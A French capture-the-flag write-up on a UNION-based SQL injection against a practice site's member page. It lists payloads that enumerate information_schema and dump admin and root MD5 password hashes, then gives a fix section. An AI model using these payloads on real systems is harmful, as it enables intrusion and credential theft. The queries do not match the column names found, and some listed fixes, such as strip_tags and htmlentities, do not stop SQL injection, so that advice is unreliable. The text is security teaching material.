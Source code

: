 ## La faille
`ip`/index.php?page=member

Il est possible de faire une injection SQL en utilisant `UNION` dans le but d'exposer l'intégralité des bases de données du site et leur contenu. Cela permet de découvrir notamment et en particulier les mots de passe enregistrés des admin/root.

## L'explication
Note: tous les codes suivants ont été insérés dans l'input liée au submit.

si on submit vide, on obtient:
*You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*

En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
Voici notre bible pour ce flag : *http://www.sqlinjection.net/column-names/*

`TRUE` permet de valider l'expression le précédant. `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

`TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`
Notamment, la table:
```
table_schema: Member_Brute_Force
table_name: db_default
```
`TRUE UNION SELECT table_name, column_name FROM information_schema.columns`
Notamment:
```
table_name: db_default
column_name: username
column_name: password
```
Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
`TRUE UNION SELECT last_name, countersign FROM Member_Brute_Force.db_default`
Nous obtenons pour les utilisateurs suivants :
```
username: root
password: 3bf1114a986ba87ed28fc1b5884fc2f8

username: admin
password: 3bf1114a986ba87ed28fc1b5884fc2f8
```
soit en décrypté (md5): *shadow* (les 2 sont les mêmes). En allant sur la page de login (*`ip`/index.php?page=signin*), et en testant les combinaisons trouvées, nous retombons sur le flag !

## Le fix
Les methodes suivantes permettent efficacement de se proteger contre les injections lorsque des champs sont remplis par l'user :
- `mysql_real_escape_string` (concernant les db),
- `htmlentities()`,
- `htmlspecialchars()`,
- `strip_tags()`,
- `addslashes()`,
- et globalement en utilisant la PDO
Il est aussi de bon usage lorsqu'une requete est faite de vérifier deux clés, lorsque cela est possible, afin d'autoriser l'accès au contenu (ex : le champs demandé est le nom d'utilisateur, mais en backend le code vérifie aussi l'identifiant de l'utilisateur loggé).
Vérifier que la string envoyée ne contient pas d'espaces si cela n'est pas nécessaire
Parser le retour de la requête plutot qu'en envoyer l'intégralité du contenu
